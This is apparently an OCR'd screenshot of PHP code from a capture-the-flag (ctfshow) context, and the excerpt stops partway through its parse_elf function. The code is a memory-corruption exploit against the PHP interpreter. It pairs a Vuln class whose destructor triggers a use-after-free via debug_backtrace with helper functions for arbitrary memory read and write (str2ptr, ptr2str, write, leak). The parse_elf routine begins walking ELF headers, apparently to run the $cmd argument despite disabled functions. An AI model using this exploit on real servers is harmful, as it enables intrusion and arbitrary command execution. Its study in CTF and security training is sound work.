 ```php

function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
```